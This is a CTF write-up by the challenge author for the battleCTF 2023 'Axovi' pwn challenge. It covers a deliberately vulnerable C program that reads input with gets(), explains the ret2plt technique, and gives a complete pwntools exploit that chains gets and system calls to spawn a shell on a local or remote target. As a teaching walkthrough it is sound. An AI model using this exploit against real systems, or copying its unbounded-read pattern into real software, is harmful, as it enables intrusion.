





# Axovi Writeup [Pwn]

Attached file: [axovi](datas/axovi)

Africa battleCTF 2023 challenge, i wrote this pwn challenge for [battleCTF 2023](https://github.com/0xbugpwn/battleCTF-2023).

This challenge involves exploiting a simple C program that uses unsafe functions like gets, leading to a buffer overflow vulnerability. Participants are tasked with executing arbitrary commands on the server by exploiting a `ret2plt` attack.

#### Source Code Analysis:

```c
//gcc -o axovi axovi.c -no-pie
#include <stdio.h>
#include <stdlib.h>

int main(){

    system( "echo 'Welcome to Africa battleCTF.\nTell us something about : '" );
    char buf[0x30];
    gets( buf );

    return 0;
}

```

Output of checksec



Section 



> [!IMPORTANT]  
> * **Buffer Overflow Vulnerability**: The gets function does not check the input length, allowing stack overflow if the input exceeds `48 bytes` (0x30).
>
> * **No Stack Protection**: The program lacks stack canaries or other protections.
>
> * **Fixed Executable Layout**: The binary is compiled without `PIE` (`-no-pie`), meaning function addresses like `system` and `gets` are fixed.
>
> * **Writable Memory**: The `.data` segment (0x404028) can be used to store strings passed later to `system`.


#### Exploitation Plan:

1. Overflow the Buffer: Construct a payload to overwrite the `saved return pointer` of the function.

2. ROP Chain with `ret2plt`:

		* Redirect execution to `gets()` to store a command (e.g., `/bin/sh`) in a `writable memory` location.


		* Redirect execution to `system()` with the address of the stored command.

3. Send the Payload: Deliver the payload and trigger the exploit.


#### Understanding ret2plt:

The ret2plt (return-to-Procedure Linkage Table) attack leverages functions in the binary's `PLT (Procedure Linkage Table)` to perform arbitrary actions. Unlike code injection, `ret2plt` relies on legitimate code already present in the program.

##### Gadgets and Addresses Used:

* **pop_rdi (0x4011bb)**: Loads the address of writable memory into the `RDI` register (first argument for gets and system).

* **gets@plt (0x401040)**: Used to read a command and store it in memory.

* **system@plt (0x401030)**: Used to execute the stored command.

* **writable_mem (0x404028)**: `.data` segment used to store the `/bin/sh` string.





##### Constructing the Payload:

1. Overflow the buffer with 0x30 (`48 bytes`) plus 8 bytes for the saved base pointer (`RBP`).

2. Build a ROP chain:

	* `pop_rdi` -> `writable_mem` (to prepare the input for `gets`).

	* Call `gets()` to store the command (`/bin/sh`).

	* `pop_rdi` -> `writable_mem` (to prepare the argument for system).

	* Call `system()` with `/bin/sh`.


#### Exploit Code:

```python
from pwn import *

context.arch = 'amd64'

sh = process('./axovi')

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1002)

# Gadgets and addresses

pop_rdi =  0x00000000004011bb # pop rdi ; ret
gets_plt = 0x401040 # gets@plt
system_plt = 0x401030 # system@plt
writable_mem = 0x404028 # .data

# Building the payload
payload = b'a' * (0x30 + 8)  # Buffer overflow and overwrite return pointer
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(gets_plt)      # Call gets() to store /bin/sh
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(system_plt)    # Call system() with /bin/sh

# Interacting with the target
print(sh.recv().decode())
sh.sendline(payload)          # Send the payload
sh.sendline(b"/bin/sh")       # Provide the command to gets()
sh.interactive()              # Switch to interactive mode
```



#### Final Notes:

This challenge introduces participants to ret2plt exploitation, teaching:

* Buffer overflow analysis.

* Using ROP gadgets to achieve arbitrary command execution.
